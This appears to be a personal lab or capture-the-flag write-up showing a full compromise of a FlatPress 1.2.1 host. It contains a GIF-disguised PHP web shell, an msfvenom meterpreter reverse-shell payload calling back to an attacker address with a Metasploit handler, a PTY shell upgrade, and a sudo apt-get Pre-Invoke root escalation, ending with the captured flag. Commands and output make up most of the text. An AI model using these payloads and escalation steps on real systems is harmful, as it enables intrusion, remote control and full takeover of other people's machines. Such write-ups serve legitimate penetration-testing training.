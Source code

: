 `Running all scans on 192.168.217.29`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`80/tcp   open  http`
`8089/tcp open  unknown`

Checking out port 80, nothing sticks out - the sign in link doesn't work. 

Checking out port 8089, it looks a little better.
We can login with weak credentials admin/password.

Unfortunately no "About" section to give us the version. Let's try the CHANGELOG.md trick.

http://192.168.217.29:8089/CHANGELOG.md

This tells us we're on version 1.2.1.
![[Pasted image 20240222141803.png]]

https://github.com/flatpressblog/flatpress/issues/152

This tells us how to get remote code execution. 

Create and upload the php
`└─$ cat exploit.php`
`GIF89a;`
`<?php system($_GET['cmd']);?>`

Create an elf file and also upload it
`└─$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.45.222 LPORT=4445 -f elf -o 333.elf`

Open MSFconsole to catch
`└─$ msfconsole -x "use exploit/multi/handler;set PAYLOAD linux/x64/meterpreter/reverse_tcp;set LHOST 192.168.45.222;set LPORT 4445;exploit -j -z"`

Call the elf file
`http://192.168.217.29:8089/fp-content/attachs/exploit.php?cmd=./333.elf`

Switch to shell and upgrade
`meterpreter > shell`
`Process 1133 created.`
`Channel 1 created.`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@debian:~/flatpress/fp-content/attachs$`

Check sudo -l
`www-data@debian:~$ sudo -l`
`sudo -l`
`Matching Defaults entries for www-data on debian:`
    `env_reset, mail_badpass,`
    `secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin`

`User www-data may run the following commands on debian:`
    `(ALL) NOPASSWD: /usr/bin/apt-get`

Check if we can use this on GTFObins
https://gtfobins.github.io/gtfobins/apt-get/

Use it and get the flag
`www-data@debian:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`
`sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh`
`cd /root`
`ls`
`email8.txt  proof.txt`
`cat proof.txt`
`051fc6de348bfb7e63a412721ac95d44`